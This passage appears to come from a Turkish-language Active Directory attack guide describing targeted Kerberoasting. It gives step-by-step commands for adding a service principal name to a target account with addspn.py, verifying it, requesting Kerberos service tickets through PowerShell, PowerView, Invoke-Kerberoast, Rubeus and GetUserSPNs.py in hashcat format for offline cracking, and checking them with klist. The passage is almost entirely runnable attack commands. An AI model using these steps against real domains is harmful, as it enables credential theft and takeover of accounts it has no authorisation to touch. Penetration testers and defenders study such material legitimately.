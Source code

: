 ##### addspn.py Kullanarak:
```bash
python addspn.py steinsdc.local -u <USER_WITH_WRITE_PRIVS> --spn "DomainName/SomeUniqueName" --target TARGET_USERNAME
```

#### Adım 3: SPN'nin Kullanıcıya Ayarlandığını Doğrulama

##### AD Modülü Kullanarak:
```powershell
Get-ADUser -Identity USER_Name -Properties ServicePrincipalName | Select ServicePrincipalName
```

#### Adım 4: TGS Bileti İsteme

##### AD Modülü Kullanarak:
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosReceiverSecurityToken -ArgumentList 'DomainName/SomeUniqueName'
```

##### PowerView Kullanarak:
```powershell
Request-SPNTicket
Get-DomainUser Target_Username | Get-DomainSPNTicket
```

##### Invoke-Kerberoast Kullanarak:
```powershell
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
```

##### Rubeus Kullanarak:
```powershell
.\Rubeus.exe kerberoast /domain:steins.local /user:username /format:hashcat /outfile:hash.txt
```

##### GetUserSPNs.py Kullanarak:
```bash
GetUserSPNs.py domain/username -request
```

##### Invoke-Kerberoast.ps1 Kullanarak:
```powershell
Invoke-Kerberoast -Identity Target_username
```

#### Adım 5: TGS Biletini Kontrol Etme

##### Bileti Kontrol Etme:
```bash
klist
```
